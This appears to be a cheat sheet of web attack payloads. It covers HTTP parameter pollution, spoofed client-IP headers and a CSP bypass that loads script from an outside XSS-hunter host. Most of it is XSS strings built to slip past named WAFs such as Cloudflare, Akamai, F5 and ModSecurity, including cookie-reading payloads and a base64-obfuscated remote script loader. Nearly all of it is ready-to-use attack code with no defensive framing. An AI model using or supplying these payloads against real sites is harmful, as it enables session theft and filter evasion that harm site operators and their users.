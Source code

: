 **Using HTTP Parameter Pollution**
```
http://target.com/something.xxx?a=val1&a=val2
ASP.NET a = val1,val2
ASP a = val1,val2
JSP a = val1
PHP a = val2
```

**Implementing HTTP Headers**
```
X-Forwarded-For: 127.0.0.1
X-Remote-Ip: 127.0.0.1
X-Originating-Ip: 127.0.0.1
X-Remote-Addr: 127.0.0.1
```

**CSP Bypass**
```
d=document;f=d.createElement("iframe");f.src=d.querySelector('link[href*=".css"]').href;d.body.append(f);s=d.createElement("script");s.src="https://rhy.xss.ht";setTimeout(function(){f.contentWindow.document.head.append(s);},1000)
```

**XSS-protection bypass**
[Reference: Browser's XSS Filter Bypass Cheat Sheet](https://github.com/masatokinugawa/filterbypass/wiki/Browser's-XSS-Filter-Bypass-Cheat-Sheet)
```
<embed/:script allowscriptaccess=always src=example.com/x.js>
```

**Cloudflare Bypass**
```
<a"/onclick=(confirm)()>click
<a href="j&Tab;a&Tab;v&Tab;asc&NewLine;ri&Tab;pt&colon;\u0061\u006C\u0065\u0072\u0074&lpar;this['document']['cookie']&rpar;">X</a>
<--`<img/src=` onerror=confirm``> --!>
```

**Akamai bypass**
```
<dETAILS%0aopen%0aonToGgle%0a=%0aa=prompt,a() x> //akamai ghost bypass
<d3v/onauxclick=[2].some(confirm)>click
<a href="javascript:pro\u006dpt(document.cookie)">L1k0r</a>
?"></script><base%20c%3D=href%3Dhttps:\mysite>
```

**Generic WAF Bypasses**
```
<!" (without quotes) before: <!<script>alert(1)</script>
anythinglr00%3c%2fscript%3e%3cscript%3ealert(document.domain)%3c%2fscript%3euxldz
BLOCKED <body/onload PASSED <body/onpageshow  BLOCKED =alert() PASSED =(alert)()

Notification.requestPermission(x=>{new(Notification)(1)})

<svg/onload=eval(location.hash.slice(1))>#with(document)body.appendChild(createElement('script')).src='//DOMAIN'
[base64 bypass firefox]: #with(document)body.appendChild(createElement(/script/.source)).src=atob(/Ly9icnV0ZWxvZ2ljLmNvbS5ici8y/.source)

[FINAL/src=brutelogic.com.br/2]: <svg/onload=eval(atob(URL.slice(-148)))>#d2l0aChkb2N1bWVudClib2R5LmFwcGVuZENoaWxkKGNyZWF0ZUVsZW1lbnQoL3NjcmlwdC8uc291cmNlKSkuc3JjPWF0b
2IoL0x5OWljblYwWld4dloybGpMbU52YlM1aWNpOHkvLnNvdXJjZSk=
```
[Reference: Avoiding XSS Detection](https://brutelogic.com.br/blog/avoiding-xss-detection/)

**MORE: Bypassing WAFs in Wild**
```
Name: Wordfence
Payload: <a/href=javascript&colon;alert()>click

Name: Barracuda
Payload: <a/href=&#74;ava%0a%0d%09script&colon;alert()>click

Name: Comodo
Payload: <d3v/onauxclick=(((confirm)))``>click

Name: F5
Payload: <d3v/onmouseleave=[2].some(confirm)>click

Name: ModSecurity
Payload: <details/open/ontoggle=alert()>

Name: dotdefender
Payload: <details/open/ontoggle=(confirm)()//
```

